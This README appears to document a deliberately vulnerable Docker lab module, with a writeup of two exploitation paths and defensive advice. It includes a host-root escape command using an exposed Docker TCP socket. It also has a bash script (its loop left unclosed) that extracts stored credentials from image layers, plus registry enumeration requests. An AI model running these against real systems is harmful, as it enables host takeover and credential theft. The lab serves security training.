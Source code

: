 # Docker-Security-Flaws 

## Installation
This module shows two of many possible misconfigurations in Docker environments that could lead to security-related vulnerabilities.
To use it, the `ssh.sh` script, as well as the `docker-security-flaws.sh` script must be included in `modules.txt`. After running the makeVM.sh script, the vulnerable docker setup is ready to use.

## Writeup

There are two ways to exploit the vm.

### 1) Exploit VM via via exposed socket (RCE)

- exposed socket in `/var/run` 
- possible to execute docker commands remotely
- `docker -H tcp://localhost:4444 run -v /:/mnt --rm -it alpine chroot /mnt sh`
- mountings the hosts `/` directory to the `/mnt` directory in a new container, `chrooting` and then connecting via `shell`

### 2) Exploit VM via investigating image layers 

Since it is possible to load images from the registry, we can investigate those further. The workstation image contains ssh credentials for the vm because the credentials where used during image creation. 

```
#!/bin/bash

docker -H tcp://localhost:4444 save 127.0.0.1:5000/workstation:latest > image.tar

mkdir image-data
tar -xf image.tar -C image-data/

cd image-data/
for i in ./*/; do
    cd $i
    tar -xf layer.tar
    if [ -e root/ws.env ]; then
        cat root/ws.env
        break
    fi
    cd ..

```

It is also possible to use tools like [dive](https://github.com/wagoodman/dive) to take a closer look at layers.


## Further information

### Registry discovery

When discovering a registry, it is always useful to enumerate it further. For example, it is possible to find out all repositories registered on this registry. This is possible as follows:

`GET http://<IP>:<PORT>/v2/_catalog`

Each repository has at least one 'tag' (latest), which can be used for further enumeration. Tags are often software versions or architecture notes.

Its possible to query all published tags via:

`GET http://<IP>:<PORT>/v2/repository/<name>/tags/list`

Its furthermore possible to enumerate a specific repository and the manifest like so:

`GET http://<IP>:<PORT>/v2/cmnatic/<name>/manifests/<tag>`

So it is partly possible to pick off deep hanging fruits and to discover for example information disclosures or default credentials.

### Socket

In most cases, people associate the word socket with network connections. In this case, however, it is a Unix socket. Simply put, UNIX sockets accomplish the same goal as network sockets - transferring data. However, in the host itself with the help of the file system, unlike network interfaces

Due to the fact that UNIX sockets use the filesystem directly, you can use filesystem permissions to decide who or what can read/write. 

Users interact with Docker by using the Docker Engine. For example, commands such as `docker pull` or `docker run` will be executed by the use of a socket - this can either be a UNIX or a TCP socket, but by default, it is a UNIX socket. This is why you must be a part of the "docker" group to use the docker command (remembering that UNIX sockets can use file permissions here!).

Developers love to automate, and this is proven nonetheless with Docker. Whilst Docker uses a UNIX socket, meaning that it can only interact from the host itself. However, someone may wish to remotely execute Docker commands such as in Docker management tools like Portainer or DevOps applications like Jenkins to test their program.


To achieve this, the daemon must use a TCP socket instead, permitting data for the Docker daemon to be communicated using the network interface and ultimately exposing it to the network for us to exploit.
It would be advisable to use some form of authentication (e.g., a proxy) to prevent misuse as shown in this vulnerable machine. Even better: Do not expose a socket at all.

### Docker images / layers

Do not use docker images from untrusted sources. If you use docker images, try to understand the image creation process. Do not store or load credentials in docker images.

